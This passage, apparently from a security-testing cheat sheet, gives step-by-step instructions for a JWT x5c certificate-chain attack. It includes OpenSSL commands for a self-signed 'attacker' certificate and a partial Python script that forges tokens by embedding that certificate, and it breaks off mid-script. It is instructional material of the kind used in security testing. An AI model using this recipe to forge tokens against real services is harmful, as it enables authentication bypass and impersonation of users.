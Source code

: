   - **X5C and X5U parameter attacks**
    1. **X5C certificate chain attack**:
       - Step 1: Generate a self-signed certificate with OpenSSL
       - Step 2: Extract the public key in the correct format
       - Step 3: Capture a valid JWT
       - Step 4: Modify the header to include an `x5c` parameter with your certificate
       - Step 5: Modify payload claims as desired
       - Step 6: Sign the token with your private key
       - Step 7: Send the modified token to the server
       - Commands to generate certificate:
       ```bash
       # Generate private key
       openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048
       
       # Generate self-signed certificate
       openssl req -new -x509 -key private_key.pem -out certificate.pem -days 365 -subj "/CN=attacker.com"
       
       # View certificate in base64 format
       openssl x509 -in certificate.pem -text -noout
       ```
       - Python script for `x5c` injection:
       ```python
       import jwt
       import base64
       from cryptography import x509
       from cryptography.hazmat.backends import default_backend
       from cryptography.hazmat.primitives import serialization
       import json
       
       # Read your certificate and private key
       with open('certificate.pem', 'rb') as f:
           cert_data = f.read()
           
       with open('private_key.pem', 'rb') as f:
           private_key_data = f.read()
       
       # Parse certificate
       cert = x509.load_pem_x509_certificate(cert_data, default_backend())
       
       # Get certificate in DER format and encode to base64
       cert_der = cert.public_bytes(serialization.Encoding.DER)
       cert_b64 = base64.b64encode(cert_der).decode('utf-8')
       
       # Load private key
       private_key = serialization.load_pem_private_key(
           private_key_data, 
           password=None, 
           backend=default_backend()
       )
       